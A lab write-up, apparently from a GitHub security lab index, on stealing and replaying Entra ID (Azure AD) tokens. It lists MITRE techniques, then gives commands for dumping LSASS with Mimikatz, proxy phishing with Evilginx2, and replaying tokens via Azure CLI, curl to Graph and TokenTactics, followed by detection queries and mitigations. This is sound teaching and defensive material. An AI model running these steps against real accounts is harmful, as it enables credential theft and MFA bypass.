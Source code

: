# Attack Scenario: Azure Token Theft & Replay
In Entra ID (Azure AD), access tokens, refresh tokens, and ID tokens grant access to services and APIs without resubmitting credentials. If an attacker steals a valid token (via memory dump, proxy, OAuth misconfig, or MITM), they can replay it to gain access — bypassing MFA if the token was already issued post-authentication.

## MITRE ATT&CK Techniques:
- T1550.001 – Use Alternate Authentication Material: Web Session Cookie
- T1528 – Abuse Access Tokens
- T1557 – Adversary-in-the-Middle

## Lab Environment
- **Azure-connected identity (hybrid or cloud-native)**
- **Entra ID user with MFA enabled**
- **User interacts with M365, Graph API, or Azure Portal**
- **Attacker can intercept or extract session material**
- **Tools:** TokenTactics, Evilginx2, Roadtools, Browser dev tools (manual), Azure CLI

## Objectives
- Extract or intercept valid tokens (access/refresh)
- Replay tokens to access Microsoft cloud services
- Persist access and pivot into higher privilege or data theft

## Execution Steps
### 1. Capture or Steal Tokens
#### a. From Device Memory
Using Mimikatz or LSASS dump:

```sekurlsa::logonpasswords```
Look for Bearer tokens or refresh tokens embedded in session processes.

#### b. From Evilginx2 Phishing
Evilginx2 captures tokens via reverse proxying Microsoft login:

```evilginx -p /path/to/config```
Tokens stored in:

~/.evilginx/session_tokens.json
#### c. From Browser
Via DevTools > Application > Cookies / LocalStorage:

```https://login.microsoftonline.com```

Look for access_token, id_token, or refresh_token entries

### 2. Decode the Token (Optional)
To validate token contents:

```jwt.io```
Or with Roadtools:

```roadrecon jwt <access_token>```

### 3. Replay Token with Azure CLI
To manually authenticate with a stolen token:

```az login --access-token <token>```

To access Graph API:

```curl -H "Authorization: Bearer <access_token>" https://graph.microsoft.com/v1.0/me```

To use with TokenTactics:

```tokenTactics.py --access-token <token> --resource graph```

## Detection Guidance
### Logs and Indicators
Sign-ins without credential prompt (sign-in logs missing Interactive auth type)
Access from unexpected IP or user agent
Sign-ins with “MFA satisfied” but no challenge
Multiple tokens issued in short bursts

### KQL – Suspicious Token Use Without MFA
```
SigninLogs
| where AuthenticationRequirement == "SingleFactorAuthentication"
| where DeviceDetail.browser != "ExpectedBrowser"
| where IPAddress !in (known corp IPs)
```

## Mitigations
- Shorten token lifetimes via Conditional Access policies
- Enable Continuous Access Evaluation (CAE)
- Use Conditional Access with token protection (Preview)
- Enforce sign-in frequency and reauth interval

Example: CAE Settings

```Entra ID > Security > Conditional Access > Token Protection (Preview)```
## References
- https://o365blog.com/post/token-theft
- https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation
- https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens
- https://attack.mitre.org/techniques/T1528/

## Navigation
[Back to Lab Index:](../../README.md)
